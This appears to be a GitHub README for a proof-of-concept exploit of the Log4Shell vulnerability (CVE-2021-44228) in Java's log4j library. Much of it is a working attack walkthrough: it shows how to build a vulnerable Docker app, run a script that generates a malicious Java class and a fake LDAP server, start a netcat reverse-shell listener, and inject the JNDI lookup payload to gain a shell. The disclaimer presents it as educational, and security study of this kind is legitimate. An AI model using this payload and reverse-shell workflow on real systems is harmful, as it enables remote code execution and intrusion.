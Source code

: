 A Proof-Of-Concept for the recently found CVE-2021-44228 vulnerability. <br><br>

Recently there was a new vulnerability in log4j, a java logging library that is very widely used in the likes of elasticsearch, minecraft and numerous others.

In this repository we have seen how to exploit log4j vulnerability with a simple vulnerable application

You can download the POC and its dependency files from [here](https://drive.google.com/drive/folders/1gpNdCJnvYI0qjVJMeOFkfd_i3NCujTPT?usp=sharing).

#### Usage:

* Step #1 : Clone & Download the Vulnerable application from above.<br>
* Step #2 : Install Docker and run the following commands to host a vulnerable application. <br>

    ```c
    1: # docker build -t log4j-shell-poc .
    2: # docker run --network host log4j-shell-poc
    ```
    Once it is running, you can access it on localhost:8080

    <br>

* Step #3 : Download and extract the POC folder from above link and install it dependencies.<br>

    ```py
    $ pip3 install -r requirements.txt
    $ python3 poc.py --userip localhost --webport 8000 --lport 4545

    [!] CVE: CVE-2021-44228

    [!] Github repo: https://github.com/Hack-with-8k0b/log4j-App-and-Poc

    [+] Exploit java class created success
    [+] Setting up fake LDAP server

    [+] Send me: ${jndi:ldap://localhost:1389/a}

    Listening on 0.0.0.0:1389
    ```
    
* Step #4 : Start a netcat listener in different terminal to accept reverse shell connection.<br>
```py
nc -lvnp 4545
```
* Step #5 : Copy & paste the link created by the poc into the vulnerable input field .<br>

    This script will setup the HTTP server and the LDAP server for you, and it will also create the payload that you can use to paste into the vulnerable parameter. After this, if everything went well, you should get a shell on the lport.

<br>


Disclaimer
----------
The above POC and Vulnerable App is simplified version of kozmer's Github log4jshell-poc, This POC is for educational purposes only, so use it on your own risks.

This is to help security researchers and newbies to learn about log4jshell vulnerablity and attack, for any concerns and queries feel free to reach me out @ nbharathkumara@gmail.com
